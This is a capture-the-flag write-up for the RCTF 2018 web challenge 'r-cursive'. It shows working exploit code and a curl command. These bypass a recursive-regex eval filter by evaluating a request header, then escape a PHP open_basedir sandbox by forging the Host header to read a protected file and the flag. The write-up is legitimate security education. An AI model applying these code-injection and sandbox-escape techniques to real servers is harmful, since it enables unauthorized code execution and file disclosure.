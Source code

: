 ```yaml
---
title: r-cursive - RCTF 2018
layout: post
date: '2018-05-21 22:00:00'
---
```


> LUL dat font
>
> http://r-cursive.ml
>
> hint: If you get stuck after arbitary code execution, try to escape the sandbox. phpinfo may help you figure out how the sandbox works.

*500 points, 21 Solves, web*

We start off at the following page:

```php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
```

Which after visiting **?action=go** takes us to the following:

```php
sha1($_SERVER['REMOTE_ADDR']) === 'eeeee661b2832456d66684dbadb5117e9d108d7c' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

So we can have our payload evaled only if it passes the regex, which is basically limiting us to a single word function (no underscores) that can either have no arguments, or a single argument that also matches the regex (hense the name r-cursive). So we can do things like `phpinfo();` or `echo(serialize(getcwd()));`

As this was very limiting the first thing to do was to get arbitrary eval. We controlled the headers, and after a bit of trial and error I found `echo(eval(end(getallheaders())));` which would eval the last header, removing the restrictions on what we could call. But it looked like a bunch of methods were banned, and checking by calling `ini_get_all` revealed the following restrictions:

```php
disable_classes: GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator
disable_functions: system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link
open_basedir: /var/www/sandbox/eeeee661b2832456d66684dbadb5117e9d108d7c/:/tmp/
```

After a long time of trying different classes and ways of bypassing the filters I found nothing, so I stopped and reread the hint which got me thinking. The open_basedir must be dynamically being set based on the host name or REMOTE_ADDR. After a bunch more trial and error I found that sending a Host header of `Host: .eeeee661b2832456d66684dbadb5117e9d108d7c` would still send me to the right place by would set `open_basedir` to `/var/www/sandbox/:/tmp/`! I could now read the `init.php` file that we being prepended via `auto_prepend_file`:

```bash
$ curl 'http://f3e2e661b2832456d66684dbadb5117e9d108d7c.sandbox.r-cursive.ml:1337/f3e2e661b2832456d66684dbadb5117e9d108d7c/?cmd=echo(eval(end(getallheaders())));' -H 'ZZZ: var_dump(file_get_contents("../init.php"));' -H "Host: .f3e2e661b2832456d66684dbadb5117e9d108d7c"

string(148) "<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```

`RCTF{apache_mod_vhost_alias_should_be_configured_correctly}`